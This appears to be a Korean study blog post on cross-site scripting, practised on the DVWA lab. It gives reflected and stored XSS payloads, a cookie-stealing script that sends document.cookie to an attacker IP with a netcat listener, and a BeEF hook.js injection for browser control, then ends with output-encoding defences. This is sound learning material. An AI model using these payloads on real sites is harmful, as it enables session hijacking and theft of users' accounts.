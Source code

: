```yaml
---
layout: post
title: "XSS 공부"
date: 2025-09-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

XSS(Cross-Site Scripting)는 공격자가 웹 애플리케이션에 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 해당 스크립트가 실행되도록 만드는 공격이다. 이 공격은 [A03: Injection](https://hamap0.github.io/projects/owasp-top-10/2025/08/27/A03_Injection.html) 보고서에서 다룬 인젝션 공격의 한 종류이며 주로 세션 쿠키 탈취 등에 사용된다.

---

### 2. 기본 유형 및 실습

#### ***Reflected XSS (반사형)***

Reflected XSS는 사용자의 입력이 서버를 거쳐 즉시 응답 페이지에 반영될 때 발생한다.  
DVWA의 `XSS (Reflected)` 페이지는 `name` 파라미터의 값을 별도의 검증 없이 HTML 응답에 삽입한다.

다음과 같은 요청을 전송하면

```
GET /vulnerabilities/xss_r/?name=<script>alert('Reflected%20XSS')</script> HTTP/1.1
Host: dvwa.local
```

서버는 입력값을 그대로 포함한 응답을 반환한다.

```html
<h1>Hello <script>alert('Reflected XSS')</script>!</h1>
```

브라우저는 이 HTML을 파싱하면서 `<script>` 태그를 실행하고 경고창을 표시한다.  
이 공격은 URL에 의존하므로, 공격자는 피싱 링크를 통해 피해자를 유도할 수 있다.

---

#### ***Stored XSS (저장형)***

Stored XSS는 공격 페이로드가 서버의 데이터베이스나 파일 시스템에 영구적으로 저장된 후,  
해당 페이지를 방문하는 모든 사용자에게 전달될 때 발생한다.

DVWA의 `XSS (Stored)` 페이지는 방명록 메시지를 데이터베이스에 저장한 뒤,  
모든 방문자에게 동일한 HTML로 출력한다.

공격자가 다음 메시지를 등록하면,

```html
<script>alert('Stored XSS')</script>
```

서버는 이를 저장하고, 이후 페이지 접근 시 다음과 같은 구조로 응답한다.

```html
<div class="guestbook-post">
  <script>alert('Stored XSS')</script>
</div>
```

이 경우, 해당 페이지를 방문하는 모든 사용자의 브라우저에서 스크립트가 실행된다.  
공격 범위가 Reflected XSS보다 훨씬 넓다는 점에서 위험성이 크다.

---

### 3. 심화 활용: 쿠키 탈취

XSS 취약점은 사용자의 세션 쿠키를 탈취하여 계정을 도용하는 세션 하이재킹 공격에 사용될 수 있다.

1. ***공격자 리스너 준비***
   공격자는 Netcat을 사용해 HTTP 요청을 수신하는 리스너를 실행한다.  
   ```bash
   sudo nc -lvnp 80
   ```

이 명령은 80번 포트에서 들어오는 연결을 대기합니다.

2. ***쿠키 탈취 페이로드 작성***  
   다음 스크립트는 현재 도메인의 쿠키를 읽어 공격자 서버로 전송한다.  
   ```javascript
   <script>
     document.location = 'http://192.9.200.12/?cookie=' + btoa(document.cookie);
   </script>
   ```  
   - `document.cookie`: 현재 세션의 모든 쿠키를 반환  
   - `btoa()`: 특수문자로 인한 URL 파싱 오류를 방지하기 위해 Base64 인코딩 수행  

3. ***페이로드 주입 및 실행***  
   위 스크립트를 Stored XSS 취약점에 삽입하면, 피해자가 페이지를 방문할 때마다 브라우저가 자동으로 다음 요청을 보낸다.
   ```
   GET /?cookie=c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz HTTP/1.1
   Host: 192.9.200.12
   User-Agent: Mozilla/5.0 ...
   ```

4. ***쿠키 복원***  
   공격자는 수신된 Base64 문자열을 디코딩해 실제 쿠키 값을 확인할 수 있다.  
   ```bash
   echo "c2VjdXJpdHk9bG93OyBQSFBTRVNTSUQ9YWJjMTIz" | base64 -d
   # 출력: security=low; PHPSESSID=abc123
   ```  
   이 값을 자신의 브라우저에 주입하면 피해자의 세션으로 로그인할 수 있다.

---

### 4. 심화 활용 2: 브라우저 제어권 획득 (BeEF 연동)

XSS 공격의 파급력은 쿠키 탈취에 그치지 않는다. **BeEF(The Browser Exploitation Framework)**와 연동하면 피해자의 브라우저를 좀비처럼 제어하여 추가 공격을 수행할 수 있다.

1. ***BeEF 실행***  
   공격자는 다음 명령으로 BeEF를 시작한다.  
   ```bash
   sudo beef-xss
   ```  
   BeEF는 기본적으로 `http://192.9.200.12:3000/ui/panel`에서 관리자 인터페이스를 제공하며,  
   Hook 스크립트 URL은 다음과 같다.
   ```html
   <script src="http://192.9.200.12:3000/hook.js"></script>
   ```

2. ***Hook 스크립트 주입***  
   이 스크립트를 Stored XSS 취약점에 삽입하면
   방문자의 브라우저는 자동으로 `hook.js`를 로드하고 BeEF 서버에 연결된다.

3. ***브라우저 제어***  
   BeEF 관리자 패널의 `Online Browsers` 탭에서는 연결된 브라우저의 다음 정보를 확인할 수 있다.
   - IP 주소  
   - 운영체제  
   - 브라우저 종류 및 버전  

   공격자는 `Commands` 탭에서 다양한 모듈을 실행할 수 있다.
   - **Get Cookies**: `document.cookie` 값을 수집  
   - **Redirect Browser**: 특정 URL로 강제 이동  
   - **Create Alert Dialog**: 사용자에게 경고창 표시  

   이러한 기능은 추가적인 사회공학 공격이나 정보 수집에 활용된다.

---

### 5. 방어 방안: 출력 인코딩

XSS를 방어하는 가장 효과적인 방법은 **모든 사용자 입력을 출력 시 인코딩**하는 것이다.  
브라우저가 입력값을 HTML 태그나 스크립트로 해석하지 못하도록,  
특수문자를 안전한 HTML 엔터티로 변환해야 한다.

예를 들어, 다음 문자는 다음과 같이 인코딩되어야 한다.
- `<` → `&lt;`  
- `>` → `&gt;`  
- `&` → `&amp;`  
- `"` → `&quot;`  
- `'` → `&#039;`  

PHP에서는 `htmlspecialchars()` 함수를 사용해 이를 처리할 수 있다.
```php
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
```  

이렇게 인코딩된 출력은 브라우저에서 **단순 텍스트로만 표시**되며,  
스크립트 실행이나 태그 해석이 발생하지 않는다.

<hr class="short-rule">
